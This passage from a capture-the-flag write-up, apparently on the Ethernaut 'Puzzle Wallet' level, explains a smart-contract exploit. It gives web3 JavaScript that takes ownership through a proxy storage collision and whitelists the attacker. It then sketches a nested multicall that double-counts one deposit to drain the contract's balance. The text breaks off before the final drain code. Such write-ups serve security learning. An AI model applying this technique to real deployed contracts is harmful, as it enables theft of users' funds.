The plan seems good so far, but one piece is missing: how do we drain the wallet? Assuming we are both the owner and whitelisted, let's see what we have:

- `deposit` function allows you to deposit, with respect to not exceeding `maxBalance`.
- `execute` function allows you to `call` a function on any address with some value that is within your balance. Without any call data and your address as the destination, this acts like a `withdraw` function.
- `multicall` function allows you to make multiple calls of the above two, in a single transaction. This function is basically the main idea of the entire contract.

The `multicall` function supposedly checks for double spending on `deposit` via a boolean flag; however, this flag works only for one `multicall`! If you were to call `multicall` within a `multicall`, you can bypass it. Since `delegatecall` forwards `msg.value` too, you can put more money than you have to your balance.

## Attack

First things first, let's become the `owner` and whitelist ourselves. Within the console, we are only exposed to the logic contract (`PuzzleWallet`) via `contract` object, but everything goes through proxy first. We can call the functions there by manually giving the calldata.

```js
const functionSelector = '0xa6376746'; // proposeNewAdmin(address)
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.utils.encodePacked(functionSelector, web3.utils.padLeft(player, 64)),
});
// confirm that it worked
if (player == (await contract.owner())) {
  // whitelist ourselves
  await contract.addToWhitelist(player);
}
```

The next step is to drain the contract balance. When we check the total balance via `await getBalance(contract.address)` we get `0.001`. So if we somehow deposit `0.001` twice with double-spending, the contract will think total balance to be `0.003` but actually it will be `0.002`. Then we can withdraw our balance alone and the contract balance will be drained.

Here is a schema on how we will arrange the `multicall`s:

```js
// let 'b' denote balance of contract
// call with {value: b}
multicall:[
  deposit(),
  multicall:[
    deposit() // double spending!
  ],
  execute(player, 2 * b, []) // drain contract
]
```

Writing the actual code for this schema:
